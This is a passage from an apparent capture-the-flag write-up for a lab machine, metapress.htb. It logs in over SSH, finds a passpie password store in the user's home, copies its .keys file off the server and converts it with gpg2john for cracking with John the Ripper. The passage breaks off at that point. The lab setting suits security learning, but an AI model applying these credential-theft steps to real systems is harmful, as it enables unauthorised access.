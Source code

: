 ```console
$ ssh jnelson@metapress.htb                              
jnelson@metapress.htb's password: *****************
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 30 10:29:47 2023 from 10.10.14.70

jnelson@meta2:~$
```

The first flag is inside *user.txt*, done with the first part.

## Privilege Escalation

After finally being able to login as *jnelson* and realizing it doesn't have any *sudo* commands capabilities, if you look into the home of the user, you will instantly find something very suspicious.

```console
jnelson@meta2:~$ ls -al
total 40
drwxr-xr-x 6 jnelson jnelson 4096 Apr 30 16:07 .
drwxr-xr-x 3 root    root    4096 Oct  5  2022 ..
lrwxrwxrwx 1 root    root       9 Jun 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jnelson jnelson  220 Jun 26  2022 .bash_logout
-rw-r--r-- 1 jnelson jnelson 3526 Jun 26  2022 .bashrc
drwx------ 2 jnelson jnelson 4096 Apr 30 03:57 .gnupg
drwxr-xr-x 3 jnelson jnelson 4096 Oct 25  2022 .local
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .passpie
-rw-r--r-- 1 jnelson jnelson  807 Jun 26  2022 .profile
drwx------ 2 jnelson jnelson 4096 Apr 30 04:03 .ssh
-rw-r----- 1 root    jnelson   33 Apr 29 09:47 user.txt
```

You will see an hidden folder called *passpie* and after some googling you will realize that that [passpie](https://github.com/marcwebbie/passpie) is a CLI password manager which uses gpg to store credentials. Let's copy the *.keys* file from the meta2 server to us to try to crack it. 

```console
$ scp jnelson@metapress.htb:~/.passpie/.keys passpiekeys
```

Hashcat doesn't support gpg format so we're going to use johntheripper, but first we need to convert the keys format. Just remove the public key part from the file then:

```console
$ gpg2john passpiekeys > keys.txt
```

And after that let's run johntheripper.

